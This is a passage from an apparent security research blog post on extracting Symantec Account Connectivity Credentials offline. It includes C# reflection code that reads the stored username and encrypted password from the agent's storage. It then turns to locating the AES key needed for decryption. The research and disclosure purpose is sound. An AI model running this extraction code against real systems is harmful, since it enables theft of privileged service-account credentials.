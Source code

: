 It worked, and we can see that `EnumItems()` returned 2 items, which are precisely the ones referenced in the *Client Policy* file.

- `{1BBC72A2-C661-4E5D-A267-2456727165D7}` --> `UserName`
- `{C14B5C86-C1B8-405E-A049-EF01E21761C2}` --> `UserPassword`

We expect these two items to be strings, so the next thing to do is to try and read them using `ReadItemStr()`. This method converts the data it reads from the storage to a `SecureString`, but we can use its helper method `ConvertToUnsecureString()` to get the raw string back.

```csharp
// Get the path of the native library AeXAgentExt.dll...
// Use reflection to instantiate the AgentStorage class...

var mthd_readitemstr = type.GetMethod("ReadItemStr");
SecureString res_securestring = (SecureString)mthd_readitemstr.Invoke(
    obj,
    new object[] { args[0], (UInt32)0 }
);

var mthd_converttounsecurestring = type.GetMethod("ConvertToUnsecureString");
string res = (string)mthd_converttounsecurestring.Invoke(
    obj,
    new object[] { res_securestring }
);

Console.WriteLine(res);
```

![Reading string items from the Agent Storage](/assets/posts/2025-06-15-offline-extraction-of-symantec-account-connectivity-credentials/poc-agentstorage-readitemstr.png)
*Reading string items from the Agent Storage*

As expected, it worked, and we have successfully retrieved the ACCs' username and password. Well, almost.

## Password Decryption

The username is in cleartext, but the actual password is still encrypted. We already saw, in the previous blog post, how to decrypt it. The problem is that we used the AES key provided with the *Client Policies* to do that, but we don't have this information here. So, we'll need to find where this key is stored first. Unless there is an easier way.
